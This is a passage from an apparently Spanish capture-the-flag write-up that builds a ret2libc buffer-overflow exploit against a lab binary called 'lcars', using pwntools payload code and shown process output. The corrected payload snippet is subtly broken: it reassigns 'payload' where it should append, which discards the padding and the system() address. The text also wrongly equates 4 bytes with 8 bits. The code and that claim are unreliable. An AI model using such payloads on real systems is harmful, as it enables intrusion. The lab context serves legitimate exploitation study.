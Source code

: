 Entonces nuestro script tendría estas nuevas líneas:

```py
...
payload = ("A"*212).encode() # Pasamos la cadena a bytes para poder concatenarla
payload += p32(0xf7d7ffa0, endian='little') # system()
payload += p32(0xf7ec733c, endian='little') # /bin/sh
...
```

Ahora podemos empezar a probar sin tener de intermediario a **gdb**:

```bash
❭ python3 exploit.py ./lcars
[*] '/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Starting local process './lcars': pid 1125113
[*] Switching to interactive mode

sh: 1: \x13 not found
[*] Got EOF while reading in interactive
$ id
[*] Process './lcars' stopped with exit code -11 (SIGSEGV) (pid 1125113)
[*] Got EOF while sending in interactive
```

Tenemos un error: **sh: 1: \x13 not found**... Buscando más ejemplos sobre el ataque encontramos este recurso:

* [Linux Classic - return2libc.pdf](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf).

Donde ejecuta prácticamente los mismos pasos, busca la dirección en memoria de la función `system()` y algo relacionado con "`/bin/sh`", peeeero entre medio de los dos pasa **4 bytes** (8 bits) basura, algo asi como:

```py
...
payload = ("A"*212).encode() # Pasamos la cadena a bytes para poder concatenarla
payload += p32(0xf7d7ffa0, endian='little') # system()
payload = ("B"*4).encode() # + Basurita en bytes
payload += p32(0xf7ec733c, endian='little') # /bin/sh
...
```

Entonces (leyendo artículos):

> "So our next 4 bytes will be either a valid return adress (perhaps another C library function ^^?), or some random garbage", tomado de [Exploiting Techniques - ret2libc](https://0x00sec.org/t/exploiting-techniques-000-ret2libc/1833).

Como bien dice ahí, los siguientes 4 bytes despues de la función `system()` podrían ser o basura o alguna otra función del programa, pero debe ir algo (:

